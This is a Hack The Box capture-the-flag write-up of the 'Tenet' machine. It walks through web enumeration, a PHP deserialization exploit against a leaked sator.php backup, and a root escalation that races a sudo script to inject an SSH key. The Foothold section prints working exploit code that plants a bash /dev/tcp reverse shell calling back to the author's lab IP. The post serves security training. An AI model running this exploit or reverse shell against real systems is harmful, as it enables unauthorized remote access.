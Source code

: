 ```yaml
---
title: Tenet Writeup
author: mooncakeza
date: 2021-06-14 14:30pm
categories: [hackthebox]
tags: [hackthebox, writeup, tenet]
math: true
image: /assets/img/htb/Tenet/00 - tenet infocard.png
---
```


# Reconnaissance

Let us start with a basic enumeration with nmap.

```bash
sudo nmap -sC -sV
```
![Tenet](/assets/img/htb/Tenet/01 nmap scan.png){:.align-center}

We go to http://10.10.10.223 and we get a default Apache page.

![Tenet](/assets/img/htb/Tenet/02 apache default page.png){:.align-center}

We then run feroxbuster web enumeration

```
feroxbuster --url http://10.10.10.223 
```

We find the following

![Tenet](/assets/img/htb/Tenet/03 feroxbuster results.png){:.align-center}

We go to http://10.10.10.223/wordpress and find it is running wordpress.
<br>
We browse around and If we hover over <b>'Tenet'</b> at the bottom we see a hostname <b>'tenet.htb'</b>

![Tenet](/assets/img/htb/Tenet/04 wordpress hostname.png){:.align-center}

We add <b>tenet.htb</b> to our hosts file and then browse to http://tenet.htb
<br>
Now everything on the site loads properly.

![Tenet](/assets/img/htb/Tenet/05 wordpress site.png){:.align-center}

After browsing around we find the following comment left by a user.

![Tenet](/assets/img/htb/Tenet/06 neil comment.png){:.align-center}

Seems like someone might have left a file called <b>sator.php</b> and maybe a backup of it?

Let's go check.
I just add <b>sator.php</b> and <b>sator.php.bak</b> into a file called words.txt and ran feroxbuster with it.

```
feroxbuster --url http://10.10.10.223 -w words.txt
```

![Tenet](/assets/img/htb/Tenet/07 - sator.png){:.align-center}

<b>Code 200</b> confirms we have an OK success status code.

Browsing to http://10.10.10.223/sator.php we get

![Tenet](/assets/img/htb/Tenet/08 - sator.php.png){:.align-center}

We then also download the <b>http://10.10.10.223/sator.php.bak</b>  and find the following code.

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

# Foothold

I struggle with these types of challenges but 
essentially looking at the code it seems we can create our own php file and insert data to get RCE.
<br>
We just have to create our own php file with code to do this request.
<br>
We can see it could be some sort of <b>PHP Deserialization RCE</b>
<br>
Looking at the following articles we can get an idea of what needs to be done.
<br>
- [https://github.com/1N3/Exploits/blob/master/PHP-Serialization-RCE-Exploit.php](https://github.com/1N3/Exploits/blob/master/PHP-Serialization-RCE-Exploit.php)
<br>
- [https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)
<br>
We create our own PHP file with the following to add our reverse shell code into a file called moo.php and then call it to create a reverse shell.

```php
<?php

class DatabaseExport
{
	public $user_file = 'moo.php';
	public $data = '<?php exec("bash -c \'/bin/bash -i >& /dev/tcp/10.10.14.104/9998 0>&1\'"); ?>';

	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo 'EXPLOITED';
	}
}

$url = 'http://10.10.10.223/sator.php?arepo=' . urlencode(serialize(new DatabaseExport));
$response = file_get_contents("$url");
$response = file_get_contents("http://10.10.10.223/moo.php");
?>
```


We start a netcat listener on port 9998
<br>
We run the php file.

![Tenet](/assets/img/htb/Tenet/09 - run php.png){:.align-center}

We get a reverse shell on our netcat.

![Tenet](/assets/img/htb/Tenet/10 - reverse shell.png){:.align-center}

# User

Seeing that this is a wordpress site the first place I usually go and check for credentials is the <b>wp-config.conf</b>>. 
<br>
Jackpot.
<br>
![Tenet](/assets/img/htb/Tenet/11 - wordpress details.png){:.align-center}
<br>
I use those details to ssh into the machine and we have user on the box.
<br>

![Tenet](/assets/img/htb/Tenet/12 - neil user.png){:.align-center}
<br>
We check and there is the user flag.
<br>
![Tenet](/assets/img/htb/Tenet/13 - user flag.png){:.align-center}

# Privilege Escalation

Now for privsec
<br>
Let us check the sudoers file.
<br>
Seems we have access to a run a script as sudo.
<br>

![Tenet](/assets/img/htb/Tenet/14 - sudo.png){:.align-center}

We look at the script and find this part that is interesting.
<br>
We can inject our own ssh key!
<br>

![Tenet](/assets/img/htb/Tenet/15 - addKey.png){:.align-center}

We create our own key with <b>ssh-keygen</b>

![Tenet](/assets/img/htb/Tenet/16 - keygen.png){:.align-center}

We create a <b>while true</b> script called <b>sshkey.sh</b> to put our key in and inject it into a /tmp/ssh-* file which then injects it into the authorized_keys file for the root user.
<br>
Create a file sshkey.sh and put your public key in there. 
<br>
I had named mine moonkey.pub.
<br>
![Tenet](/assets/img/htb/Tenet/17 - for script.png){:.align-center}
<br>
Open up another terminal and ssh to the machine as neil.
<br>
Now run the script on the remote machine

```bash
chmod +x sshkey.sh
./sshkey.sh
```

Then in the other terminal run
<br>
![Tenet](/assets/img/htb/Tenet/18 - script run.png){:.align-center}
<br>
SSH Key has been added to root's authorized_keys file!
<br>
Now we try ssh with our key we generated to root.

```bash
ssh -i moonkey root@10.10.10.223
```

![Tenet](/assets/img/htb/Tenet/19 - root logged in.png){:.align-center}
<br>
We have root!
Let's grab the root flag.
<br>
![Tenet](/assets/img/htb/Tenet/20 - root flag.png){:.align-center}
